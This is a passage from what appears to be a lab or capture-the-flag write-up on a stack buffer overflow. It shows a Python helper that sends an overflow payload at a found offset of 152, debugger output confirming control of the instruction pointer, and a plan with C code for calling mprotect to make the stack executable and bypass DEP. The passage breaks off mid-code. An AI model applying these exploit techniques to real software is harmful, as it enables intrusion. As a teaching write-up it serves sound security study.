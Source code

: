 ```
doBof()
```


## Step 3: Find offset

With trial and error, we find the correct offset to SIP: `152`

```
offset = 152

def doBof(payload):
        print tube.recvuntil("> ")
        tube.send("1");

        print tube.recv()
        tube.send(str(len(payload)));

        print tube.recv()
        tube.send(payload)

        print tube.recv()


payload = "A" * offset + "BBBB"

doBof(payload)
```

Test results in:
```
0x0000000042424242 in ?? ()
gdb-peda$
```


## Plan

Because DEP is enabled, we have to mark the memory area of the stack executable. This is
possible by using the systemcall `mprotect`:

```
int mprotect(void *addr, size_t len, int prot);

mprotect() changes the access protections for the calling process's
       memory pages containing any part of the address range in the interval
       [addr, addr+len-1].  addr must be aligned to a page boundary.
```


## Example mprotect

```
#include <stdio.h>
#include <sys/mman.h>

#define PAGE_SIZE 4096

void main(void) {
        char stackvar[16];
        int ret;
        long long stackbase = (long long)( &stackvar ) & ~(PAGE_SIZE -1); // round down

        printf("Stack var: %p\n", &stackvar);
        printf("Stackbase: 0x%llx\n", stackbase);
        ret = mprotect( (void *) stackbase, 16, PROT_READ|PROT_WRITE|PROT_EXEC);
```